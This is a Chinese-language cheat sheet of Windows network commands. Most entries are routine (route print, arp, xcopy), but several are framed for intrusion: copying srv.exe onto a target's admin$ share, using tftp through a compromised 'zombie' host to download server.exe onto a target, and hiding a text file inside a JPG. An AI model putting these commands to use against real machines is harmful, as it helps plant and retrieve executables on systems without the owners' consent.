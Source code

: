  

 

　　open ip 连接到IP（属telnet登陆后的命令）

 

 

　　telnet 在本机上直接键入telnet 将进入本机的telnet

 

 

　　copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件

 

 

　　copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下

 

 

　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件

 

 

　　copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：

 

 

　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件

 

 

　　用参数/e才可连目录下的子目录一起复制到目标地址下。

 

 

　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送

 

 

　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机

 

 

　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)

 

 

　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface

 

 

　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
